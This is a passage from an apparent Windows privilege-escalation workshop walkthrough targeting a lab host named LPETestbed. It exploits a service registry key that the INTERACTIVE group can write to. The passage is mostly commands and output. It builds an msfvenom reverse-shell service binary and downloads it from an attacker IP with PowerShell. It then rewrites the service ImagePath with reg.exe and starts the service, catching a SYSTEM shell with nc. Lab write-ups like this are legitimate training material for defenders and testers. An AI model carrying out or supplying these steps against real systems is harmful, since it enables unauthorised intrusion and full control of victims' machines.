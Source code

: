 GROUP NAME
============
Everyone
BUILTIN\Users
NT AUTHORITY\INTERACTIVE
NT AUTHORITY\Authenticated Users

Bingo! the group NT AUTHORITY\INTERACTIVE has full access and since our user is part of that group
thus we have full control of the registry key for that service.

So now we create our payload:
````
root@kali:~/LPEWorkshop# msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=YOURIPHERE -f exe-service > insecureregistryservice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
````
Now we transfer that file to a location we control:

``(New-Object System.Net.WebClient).DownloadFile("http://10.22.6.122/insecureregistryservice.exe", "C:\Users\user\Downloads\insecureregistryservice.exe")``

Then we modify the registry key:

````
PS C:\Users\user\Downloads> reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\user\Downloads\insecureregistryservice.exe /f
The operation completed successfully.

PS C:\Users\user\Downloads> 
````
Then we start the service:
````
PS C:\Users\user\Downloads> net start regsvc
The Insecure Registry Service service is starting.
PS C:\Users\user\Downloads> 
````
And now we have a shell as NT\Authority SYSTEM
````
root@kali:~/LPEWorkshop# nc -lvnp 31337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.22.6.49.
Ncat: Connection from 10.22.6.49:64643.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami & hostname
whoami & hostname
nt authority\system
LPETestbed

C:\Windows\system32>
````
